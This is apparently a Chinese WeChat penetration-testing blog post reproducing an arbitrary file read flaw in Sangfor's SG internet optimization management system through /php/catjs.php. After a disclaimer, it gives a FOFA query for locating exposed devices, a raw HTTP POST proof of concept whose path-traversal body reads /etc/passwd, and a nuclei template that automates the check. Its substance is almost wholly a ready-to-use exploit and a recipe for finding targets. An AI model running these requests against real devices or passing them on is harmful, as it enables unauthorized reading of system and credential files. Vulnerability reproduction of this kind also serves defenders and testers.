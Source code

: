 #  *信服SG上网优化管理系统catjs.php任意文件读取

joyboy  [ fly的渗透学习笔记 ](javascript:void\(0\);)

**fly的渗透学习笔记** ![]()

微信号 Forever--Lfy-

功能介绍 渗透笔记

____

___发表于_

收录于合集 #漏洞复现 34个

  

**一、免责声明：**

* * *

 ****

      本次文章仅限个人学习使用，如有非法用途均与作者无关，且行且珍惜；由于传播、利用本公众号所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，公众号望雪阁及作者不为此承担任何责任，一旦造成后果请自行承担！如有侵权烦请告知，我们会立即删除整改并向您致以歉意。谢谢！

  

 **二、产品介绍：**

* * *

 ****

![]()

 ** **三、资产梳理：****

* * *

 ** ******

fofa:  title="SANGFOR上网优化管理"

 ** ** **四、漏洞复现：******

![]()

 ** ** ** **五、POC：********

* * *

 ** ** ** **********

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    POST /php/catjs.php HTTP/1.1Host: ipUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/119.0Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2Accept-Encoding: gzip, deflateUpgrade-Insecure-Requests: 1Sec-Fetch-Dest: documentSec-Fetch-Mode: navigateSec-Fetch-Site: noneSec-Fetch-User: ?1Te: trailersConnection: closeContent-Type: application/x-www-form-urlencodedContent-Length: 35  
    ["../../../../../../../etc/passwd"]

 ** ** ** **********

 ** ** ** **nuclei poc：  
********

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
     id: sangfor_SG  
    info:  name: sangfor_SG readFile  author: joyboy  severity: high  description: |    SANGFOR 深信服SG上网优化管理系统  reference:    - https://  classification:    cvss-metrics:     cvss-score:     cve-id:   metadata:    max-request: 1    fofa-query: title="SANGFOR上网优化管理"    verified: "true"  tags: 任意文件读取  
    http:  - raw:      - |        POST /php/catjs.php HTTP/1.1        Host: {{Hostname}}        Content-Type: application/x-www-form-urlencoded  
            ["../../../../../../../etc/passwd"]  
        matchers-condition: and    matchers:      - type: word        part: body        words:          - "root:"        condition: and  
          - type: status        status:          - 200  
    

 ** ** ** **********

![]()

  

  

  

预览时标签不可点

微信扫一扫  
关注该公众号

轻触阅读原文

继续滑动看下一个

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

